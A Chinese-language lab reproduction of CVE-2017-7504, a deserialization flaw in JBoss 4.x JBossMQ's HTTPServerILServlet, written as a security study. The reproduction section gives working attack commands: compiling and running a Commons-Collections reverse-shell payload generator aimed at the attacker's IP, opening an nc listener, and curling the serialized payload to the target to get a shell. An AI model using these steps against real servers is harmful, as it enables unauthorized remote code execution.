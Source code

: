 ```yaml
---
title: （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞
id: zhfly2985
---
```


# （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞

## 一、漏洞简介

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、漏洞影响

JBoss AS 4.x及之前版本

## 三、复现过程

win7一台，ip为172.26.1.127（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入[http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet](http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet)，如果显示下图，则可能存在漏洞

![image](../img/de40c2aec33a4e703aa9f6c5db7b0acd.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

> 继续执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](../img/818dfb03acd790896390d942fdf309ea.png)

回到nc界面，发现shell已经反弹回来了

![image](../img/20c470ebb8a3c17780df9af03a09651c.png)